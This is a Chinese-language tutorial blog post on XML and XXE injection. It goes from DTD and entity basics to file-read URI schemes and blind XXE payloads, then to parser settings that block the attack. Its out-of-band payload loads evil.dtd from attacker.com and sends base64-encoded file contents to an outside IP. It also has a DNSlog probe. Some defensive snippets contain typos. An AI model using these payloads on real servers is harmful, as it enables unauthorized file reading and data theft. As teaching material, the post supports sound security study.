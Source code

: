 ```yaml
---
layout: post
title:  "XXE"
date:   2024-07-23
categories: web_security vulnerabilities
---
```


# XXE漏洞

## 1、XML基础知识

​		e<font color="red">X</font>tensible <font color="red">M</font>arkup <font color="red">L</font>anguage 可扩展标记语言

​		主要用途：配置文件、交换数据

```xml
<?xml version="1.0"?>   // XML声明
<TranInfo>		// XML根元素
    <CdtrInf>     //XML子元素
        <Nm>张三</Nm>
        <Id>6226097558881666</Id>
    </CdtrInf>
    <DbtrInf>
        <Id>6222083803003983</Id>
        <Nm>李四</Nm>
    </DbtrInf>
    <Amt>1000</Amt>
</TranInfo>
```

### 1.1 XML格式要求

- XML文档必须有根元素
- XML文档必须有关闭标签
- XML标签对大小写敏感
- XML元素必须被正确的嵌套
- XML属性必须加引号

### 1.2 XML格式校验

​	DTD（Document Type Definition）文档类型定义，可以单独一个文件，也可以写在XML文件内部

#### 1.2.1 元素ELEMENT

```dtd
<!DOCTYPE TranInfol[
<!ELEMENT TranInfo(CdtrInf,DbtrInf,Amt)>
<:!ELEMENT CdtrInf(Id,Nm)>
<!ELEMENT DbtrInf(Id,Nm)>
]>
```

#### 1.2.2 实体ENTITY

​	内部实体

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name[
<!ELEMENT name ANY >
<!ENTITY cs "changsha" >
]>
<area>&cs;</area>
```

​	外部实体

```dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name[
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///C:/test/test.dtd" >
]>
<area>&xxe;</area>
```
#### 1.2.3 外部实体引用协议：

| 协议 | 使用方式                                                   |
| ---- | ---------------------------------------------------------- |
| file | file:///etc//passwd                                        |
| php  | php://filter/read=convert.base64-encode/resource=index.php |
| html | http//:wuya.com/evil.dtd                                   |

不同语言支持的协议

| Libxml2         | PHP                                                          | Java                                                  | .NET                   |
| --------------- | ------------------------------------------------------------ | ----------------------------------------------------- | ---------------------- |
| file、http、ftp | file、http、ftp、php、compress.zli、b、compress.bz、ip2、data、glob、phar | file、http、https、jar、ftp、netdoc、mailto、gopher * | file、http、https、ftp |

### 1.3 完整的XML

```xml-dtd
<!-- 第-部分：XML声明部分 -->
<?xml version="1.0"?>

<!-- 第二部分：文档类型定义 DTD -->
<!DOCTYPE note[
<!-- 外部实体声明 -->
<!ENTITY entity-name SYSTEM "URI/URL">
]>

<!-- 第三部分：文档元素 -->
<note>
    <to>Dave</to>
    <from>GiGi</from>
    <head>Reminder</head>
<body>fish together</body>
</note>
```

## 2、XML外部实体注入漏洞

​		<font color="red">X</font>ML E<font color="red">x</font>ternal <font color="red">E</font>ntity Injection

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >
]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### 2.1 XXE定义

​		如果Web应用的脚本代码没有限制XML引入外部实体，从而导致用户可以插入一个外部实体，并且其中的内容会被服务端执行，插入的代码可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。

### 2.2 检测XXE漏洞

- 第一步：判断是否以XML格式进行数据交换
- 第二步：判断是否实体是否会被解析
- 第三步：使用自己制作的接口或DNSlog判断服务器是否可以发起http请求
### 2.3 盲打
#### 2.3.1 DNS盲打
```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://aaabbb.fiaz.844.dnslog.cn" >
%remote;]>
```

#### 2.3.2 http接口参数，写入文件

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
%remote;]>
<root>&send;</root>
```
evil.dtd
```dtd
<!ENTITY % file SYSTEM
    "php://filter/read=convert.base64-encode/resource=file:///c:/system.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM'http://192.168.142.135:8080?p=%file'>">
```

## 3、XXE漏洞防御

（1）禁止解析外部实体

```php
libxml_disable_entity_loader(true);  // 关键代码
$xml - simplexml_load_string($xmlContent);
```

```Java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);  // 关键代码
```

```nginx
XmlDocument doc = new XmlDocument();
doc.XmlResolver = null;    // 关键代码
```

```asp
Set xmldom = Server.CreateObject('MSXML.DOMDocument')
xmldom.resolveExternals = false  // 关键代码
```

```python
from lxml import stree
xmlData = stree.parse(xmlSource, stree.XMLParser(resolve_entities=False))
```


（2）过滤用户提交的XML数据``

（3）使用WAF
